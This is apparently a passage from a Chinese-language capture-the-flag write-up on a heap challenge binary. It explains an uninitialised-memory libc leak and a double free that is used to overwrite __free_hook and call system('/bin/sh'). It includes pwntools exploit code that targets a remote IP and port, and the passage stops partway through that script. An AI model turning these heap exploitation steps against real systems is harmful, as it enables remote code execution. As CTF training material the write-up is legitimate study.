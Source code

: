 ```
  return __readfsqword(0x28u) ^ v6;
`}`
```

程序存在两个漏洞，一个是算是`message`脏数据。首先在`init_game`函数中为`game-&gt;message`分配空间的时候并没有清空内存中的数据，而`message`的堆块大小为`0x510`，也就是说释放之后重新申请即可以泄漏得到`libc`基址。程序恰好存在`restart`的情况，因此我们可以据此泄漏得到`libc`基址。

```
send_level("q")
send_order("n")
send_order("y")
send_level("l")
p.recvuntil("message:")
libc.address = u64(p.recvline().strip(b"\n").ljust(8, b"\x00")) - 96 - 0x10 - libc.sym['__malloc_hook']
log.success("libc address is `{``}`".format(hex(libc.address)))
```

另一个就是`map+0xe0`处保存指针的`double free`漏洞。该处的漏洞是在调试中发现的，在`update level`之后会退出会出现一个`double free`的漏洞，堆块的大小是`0x60`。那么接下来就是`double free`如何利用的问题了。我们能够进行任意堆块分配的就是`message`了。但是程序中采用的是`cin`进行读取的，不能覆盖到`0x60`的堆块。但是我们看到在读取得到`message`之后会将其`put vector`。在该函数中会按照我们输入的`message`的长度进行堆块申请

```
if ( current_vector_c )
  current_vector_c = std::__cxx11::basic_string&lt;char,std::char_traits&lt;char&gt;,std::allocator&lt;char&gt;&gt;::basic_string(
    current_vector_c,
    name_c);
```

这里就达到了我们任意申请堆块的目的。下面就是正常的`double free`的操作了。这里注意的是`put_name_vector`函数调用结束之后就是`name`的析构函数。

```
put_name_to_vector((game *)&amp;::a1, (__int64)&amp;name);
std::__cxx11::basic_string&lt;char,std::char_traits&lt;char&gt;,std::allocator&lt;char&gt;&gt;::~basic_string(
(__int64)&amp;name,
(__int64)&amp;name);
```

在我们覆写完毕`free_hook`之后此处是第一次调用的位置（需要注意`name vector`的扩展情况），因此我们将`name`的起始八个字节改为`/bin/sh`，覆写的`fd`指针自然变为`free_hook-0x8`。

```
# encoding=utf-8
from pwn import *

file_path = "./pwn"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 0
if debug:
    p = process([file_path])
    # gdb.attach(p, "b *$rebase(0xB56b)\nb *$rebase(0xB166)\nb *$rebase(0xa70d)\nb *$rebase(0xb06f)")
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    one_gadget = 0x0

else:
    p = remote('52.152.231.198', 8082)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    one_gadget = 0x0


def send_order(order):
    p.sendlineafter("Please input an order:\n", order)
```